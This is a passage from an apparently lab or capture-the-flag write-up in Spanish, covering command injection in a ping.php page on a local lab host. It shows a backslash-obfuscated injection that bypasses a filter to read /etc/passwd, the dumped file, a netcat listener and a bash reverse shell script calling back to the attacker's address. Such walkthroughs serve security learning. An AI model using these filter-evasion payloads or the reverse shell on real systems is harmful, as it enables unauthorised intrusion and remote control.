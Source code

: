 Ninguna ha funcionado: Asi que generaremos una lista de bypass para este archivo con nuestra herramienta en **python3** **commanByPass.py** que genera un diccionario en base a un comando que le pasemos:
```bash
python3 commandByPass.py 'cat /etc/passwd' > passwd_by_pass.txt
```

NO subire todo el diccionario creado para no aburmar pero con este comando logramos ver el contenido del archivo **passwd**
```bash
c\a\t /\e\t\c\/\p\a\s\s\w\d
```

Asi que probamos para ver el contenido del archivo:
```bash
http://172.17.0.2/ping.php?ip=172.17.0.2;c\a\t%20/\e\t\c\/\p\a\s\s\w\d
```

Ahora si que podemos ver el contenido del archivo:
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
balutin:x:1000:1000:balutin,,,:/home/balutin:/bin/bash
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
tcpdump:x:101:103::/nonexistent:/usr/sbin/nologin
```

Ahora sabemos que existen estos usuarios en el sistema:
```bash
balutin:x:1000:1000:balutin,,,:/home/balutin:/bin/bash
root:x:0:0:root:/root:/bin/bash
```
### Intrusion
Nos ponemos en escucha
```bash
nc -nlvp 443
```

Ahora toca ganar acceso al objetivo, De igual manera usaremos nuestra herramienta para generar un diccionario::
pero primero crearemos un archivo malicioso bajo el nombre **cmd.sh** que contenga una **revershell**:
```bash
#!/bin/bash

bash -i >& /dev/tcp/172.17.0.1/443 0>&1
```
